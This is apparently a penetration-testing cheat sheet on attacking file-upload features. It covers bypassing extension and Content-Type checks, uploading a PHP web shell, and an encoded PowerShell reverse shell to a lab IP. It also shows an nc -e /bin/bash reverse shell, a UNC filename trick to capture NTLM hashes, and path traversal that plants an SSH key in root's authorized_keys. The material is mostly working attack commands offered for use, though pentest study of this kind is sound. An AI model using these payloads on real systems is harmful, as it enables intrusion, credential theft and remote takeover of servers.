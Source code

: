 - Rename files to bypass uploader logic such as `.phps, .php7, .pHP, .png.php, .php%20`
- If the validation is on the frontend, the request can be altered with Caido/Burp by changing the extension.
- Change Content-Type.
- Add magic bytes.
- Embed PHP code in the image file.

```shell
# after uploading the file
curl http://<ip>/uploads/shell.pHP?cmd=dir

# encode a PowerShell reverse shell one-liner to execute with the backdoor
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

# use the encoded one-liner
curl http://<ip>/uploads/simple-backdoor.pHP?cmd=powershell%20-encodedCommand%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwA...AGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

- Capture NTLM hash

```shell
# change filename with Caido/Burp to access net share and get NTLM hash
Content-Disposition: form-data; name="myFile"; filename="\\\\192.168.45.215\\test"
```

- Abuse validation on double extension

```shell
# if a file .php.jpg can be uploaded, try to vi the file and add a php line
<?php system($_GET['cmd']); ?>
# then
http://.../image.php.jpg?cmd=nc -e /bin/bash <ip> <port>
```

### Non-Executable Files

```shell
# check if a file can be uploaded using path traversal, capture the request with Caido/Burp and
../../../../../../../../test.txt

# inject a public key in root's authorized_keys
ssh-keygen
cat fileup.pub > authorized_keys
# capture and repeat the request with path traversal
../../../../../../../../root/.ssh/authorized_keys
ssh -i fileup -p 2222 root@mountaindesserts.com
```
